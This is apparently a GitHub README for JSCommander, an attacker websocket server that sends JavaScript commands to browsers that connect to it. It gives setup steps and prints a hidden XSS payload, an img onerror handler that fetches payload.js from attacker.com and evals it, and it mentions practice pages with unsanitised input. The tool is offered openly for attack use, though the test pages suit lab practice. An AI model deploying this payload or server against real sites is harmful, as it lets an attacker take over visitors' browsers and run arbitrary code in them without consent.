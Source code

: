# JSCommander
Issue JS commands remotely when clients connect to your attacker websocket server

Inspired by https://www.nullpt.rs/hacking-gta-servers-using-web-exploitation

# Install
```bash
python3 -m venv .venv
source ./.venv/bin/activate
python3 -m pip install -r requirements.txt
```

# Usage
Run the server
```bash
python3 JSCommnder-server.py
```

Control panel is only accessible from localhost on the machine you run me on. Available at http://localhost:8080/control_panel.html

You can use XSS payloads to connect to the websocket server. i.e:
```html
<img src="#" onerror='fetch(`http://attacker.com:8081/payload.js`).then(res=>res.text().then(r=>eval(r)))' style="display:none" />
``` 

There are 2 testing HTML files to play with.
- `test_client.html` simply connects to the webocket server upon opening it in your browser.
- `test_client2.html` has an unsanitized input for practicing with XSS payloads.